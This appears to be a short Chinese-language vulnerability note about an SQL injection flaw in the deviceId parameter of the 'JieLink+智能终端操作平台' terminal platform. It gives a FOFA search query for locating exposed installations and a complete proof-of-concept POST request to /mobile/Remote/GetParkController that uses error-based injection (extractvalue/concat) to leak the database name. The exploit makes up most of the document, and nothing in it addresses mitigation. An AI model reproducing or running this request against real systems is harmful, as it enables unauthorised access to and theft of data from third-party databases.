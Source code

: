 ## JieLink+智能终端操作平台存在sql注入漏洞

jieLink+智能终端操作平台deviceId参数存在sql注入漏洞，攻击者利用此漏洞可导致数据库的敏感信息泄露。

## fofa

```
title="JieLink+智能终端操作平台"
```
![Uploading image.png…]()

## poc

```
POST /mobile/Remote/GetParkController HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: DefaultSystem=Mobile; ASP.NET_SessionId=533gfzuselgriachdgogkug5
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
 
deviceId=1'and/**/extractvalue(1,concat(char(126),database()))and'
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031649500.png)
